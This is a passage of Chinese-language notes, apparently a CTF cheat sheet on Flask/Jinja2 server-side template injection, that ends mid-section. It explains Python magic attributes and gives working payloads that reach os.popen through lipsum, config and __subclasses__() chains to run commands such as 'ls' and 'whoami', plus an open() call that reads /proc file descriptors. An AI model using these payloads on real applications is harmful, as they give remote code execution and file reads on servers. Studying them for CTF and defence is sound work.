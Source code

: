g```
__class__            类的一个内置属性，表示实例对象的类。
__base__             类型对象的直接基类
__bases__            类型对象的全部基类，以元组形式，类型的实例通常没有属性 __bases__
__mro__              此属性是由类组成的元组，在方法解析期间会基于它来查找基类。
__subclasses__()     返回这个类的子类集合，Each class keeps a list of weak references to its immediate subclasses. This method returns a list of all those references still alive. The list is in definition order.
__init__             初始化类，返回的类型是function
__globals__          使用方式是 函数名.__globals__获取function所处空间下可使用的module、方法以及所有变量。
__dic__              类的静态函数、类函数、普通函数、全局变量以及一些内置的属性都是放在类的__dict__里
__getattribute__()   实例、类、函数都具有的__getattribute__魔术方法。事实上，在实例化的对象进行.操作的时候（形如：a.xxx/a.xxx()），都会自动去调用__getattribute__方法。因此我们同样可以直接通过这个方法来获取到实例、类、函数的属性。
__getitem__()        调用字典中的键值，其实就是调用这个魔术方法，比如a['b']，就是a.__getitem__('b')
__builtins__         内建名称空间，内建名称空间有许多名字到对象之间映射，而这些名字其实就是内建函数的名称，对象就是这些内建函数本身。即里面有很多常用的函数。__builtins__与__builtin__的区别就不放了，百度都有。
__import__           动态加载类和函数，也就是导入模块，经常用于导入os模块，__import__('os').popen('ls').read()]
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
current_app          应用上下文，一个全局变量。

request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
request.args.x1   	 get传参
request.values.x1 	 所有参数
request.cookies      cookies参数
request.headers      请求头参数
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 post传参	(Content-Type:a/b)
request.json		 post传json  (Content-Type: application/json)
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
g                    {{g}}得到<flask.g of 'flask_ssti'>
```

^
## **利用链**
直接使用popen（python2不行）
```
os._wrap_close 类里有popen

"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__['popen']('whoami').read()
"".__class__.__bases__[0].__subclasses__()[128].__init__.__globals__.popen('whoami').read()
```
使用os下的popen
```
含有 os 的基类都可以，如 linecache
